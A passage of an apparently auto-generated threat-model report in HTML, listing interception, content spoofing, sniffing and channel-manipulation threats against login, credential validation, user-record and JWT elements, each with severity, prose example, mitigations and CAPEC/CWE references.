  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Submit login credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Validate credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Validate credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Validate credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Validate credentials </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Validate credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Return user record </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Return user record </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Return user record </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Return user record </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Return user record </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Authentication JWT Token </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Authentication JWT Token </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Authentication JWT Token </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Authentication JWT Token </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Authentication JWT Token </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>
|

